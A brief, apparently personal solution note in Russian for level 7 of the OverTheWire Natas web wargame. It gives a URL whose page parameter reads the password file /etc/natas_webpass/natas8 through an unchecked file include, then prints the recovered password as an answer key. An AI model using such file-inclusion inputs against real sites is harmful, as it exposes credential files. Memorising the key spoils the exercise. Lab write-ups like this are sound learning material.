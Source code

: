 подсказка лежит в комментариях страницы
классическая ошибка когда апач открывает любой файл без проверки
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q